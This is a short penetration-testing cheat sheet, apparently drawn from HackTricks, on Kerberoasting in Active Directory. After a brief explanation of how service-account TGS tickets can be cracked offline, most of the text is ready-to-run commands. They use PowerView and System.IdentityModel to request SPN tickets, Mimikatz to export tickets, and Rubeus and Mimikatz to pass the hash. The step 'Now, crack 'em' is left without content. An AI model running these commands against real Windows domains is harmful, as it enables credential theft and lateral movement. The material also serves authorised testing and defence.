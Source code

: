 https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast

> [!THEORY]
> Kerberoasting a technique in which the passwords of service accounts are cracked. Kerberoasting is mainly efficient if user accounts are used as service accounts. A TGS ticket can be requested for this user, where the TGS is encrypted with the NTLM hash of the user's plaintext password. If the service account is a user account created by the administrator, there is a greater chance that this ticket can be cracked, and therefore the password for the service will be determined. This TGS ticket can be cracked offline. Nidem's kerberoast [https://github.com/nidem/kerberoast] repository is used for the attack.

```powershell
# To see existing tickets
klist

# Remove all tickets
klist purge
```

### PowerView
Request a kerberos service ticket for specified SPN.  By default the output is in Hashcat format
```powershell
Request-SPNTicket -SPN "CIFS/target.domain.local" [-OutputFormat JTR]
```
### Manually
By doing it manually, ticket is generated, it requires to be extracted to crack the hash
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "CIFS/target.domain.local"
```

Dump the tickets out
```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack ’em
### Over-Pass the Hash
#### Rubeus
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
```
#### Mimikatz
```powershell
sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe
```